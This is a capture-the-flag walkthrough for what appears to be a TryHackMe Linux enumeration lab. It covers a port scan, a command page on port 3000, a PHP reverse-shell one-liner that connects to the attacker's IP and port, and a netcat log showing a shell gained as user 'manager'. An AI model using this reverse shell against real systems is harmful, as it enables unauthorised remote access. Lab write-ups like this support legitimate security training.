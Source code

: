 # Walkthrough 


## Task 1 : Introduction


- Scan for open ports 
```
kali@kali:~/Desktop/thm/linux-local-enumeration$ cat scan.txt
[*] OS based on TTL
Linux
[*] Full TCP Scan
Open ports: 80,22,3000
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 35:30:91:45:b9:d1:ed:5a:13:42:3e:20:95:6d:c7:b7 (RSA)
|   256 f5:69:6a:7b:c8:ac:89:b5:38:93:50:2f:05:24:22:70 (ECDSA)
|_  256 8f:4d:37:ba:40:12:05:fa:f0:e6:d6:82:fb:65:52:e8 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Index of /
3000/tcp open  http    PHP cli server 5.5 or later
|_http-title: Fox's website
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
- We see that the there is a web server running on both port 80 and 3000
- Browse to the http://$IP:3000 and follow the instructions
- we see that there is an option to upload files
- Or you can navigate to htpp://$IP:3000/cmd.php and run your commands to get a revershell
- i have used to pentestmonkey php revershell and exectuted the command 


``` php -r '$sock=fsockopen("YOUR-IP",YOUR-PORT);exec("/bin/sh -i <&3 >&3 2>&3");' ``` 

- And you get a reverse-shell

```
kali@kali:~/Desktop/thm/linux-local-enumeration$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.114.228] from (UNKNOWN) [10.10.168.161] 39942
/bin/sh: 0: can't access tty; job control turned off
$ ls
cmd.php
index.html
upload.php
uploadsphp-reverse-shell.php
$ whoami
manager
$ 
